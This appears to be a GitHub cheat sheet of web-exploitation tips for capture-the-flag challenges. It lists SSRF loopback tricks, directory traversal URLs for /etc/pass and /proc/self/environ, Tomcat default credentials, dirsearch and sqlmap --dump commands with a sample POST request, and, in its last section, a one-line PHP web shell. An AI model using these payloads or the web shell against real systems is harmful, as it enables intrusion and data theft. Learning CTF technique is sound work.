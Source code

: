 # Tips and Tricks for Web

## Robots
Sometimes you gotta check out for `/robots.txt`

## Website Loopback:
If a challange asks for Preview a URL, we can use a [Payload](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery) or a [nip](https://nip.io/) or [loopback](https://qiita.com/shimoju/items/81ed5055d2fec5bb9c1e) to exploit a vulnerability in DNS to get the flag

## PHP []
When Submit was pressed, a POST request was sent to the server containing:  `password=yourinput`
We break the application by passing an array as the password:  `password[]=`

## Web Upload

If we have a LFRU (Local File Remote Upload) we use:
`http://website.com:port/files/../../../../etc/pass`.
If that doesnt work we then use
`http://website.com:port/files/..%2F..%2F..%2F..%2Fetc%2Fpass`
for LFI.

If `etc/pass` is useless we use then `/proc/self/environ` by `http://website.com:port/files/..%2F..%2F..%2F..%2Fproc%2Fself%2Fenviron`
Add more %2F inbetween if needed.

## Tomcat Manager
Apache Tomcat has a `manager`, so inorder to access him we place this at the end of the url `/manager/html`.  
If luck still isnt on our side, we add tomcat default credentials too at the begining of the url, such as: `http://tomcat:tomcat@host:proxy/manager/html`


## dirsearch

python3 dirsearch.py -u host --proxy=http://host:port/ -e sh,txt,php,html,htm,asp,aspx,js,xml,log,json,jpg,jpeg,png,gif,doc,pdf,mpg,mp3,zip,tar.gz,tar

## SQL Map
### SQL Injection
If we have a input box vulnerable to `SQL Injection`, we can execute this command through a `POST` request:  
`sqlmap.py -r post.txt -p id --dump`  
In the post file we will have the `POST` request, we can get it from `Google Developer tools` or `Burp`  
(post.txt)
```sh
POST /index.php HTTP/1.1
Host: host
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:51.0) Gecko/20100101 Firefox/51.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://host/index.php
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
 
id=a&submit1=submit
```

## Image Valun
<?php system($_GET['cmd']); die(); ?>
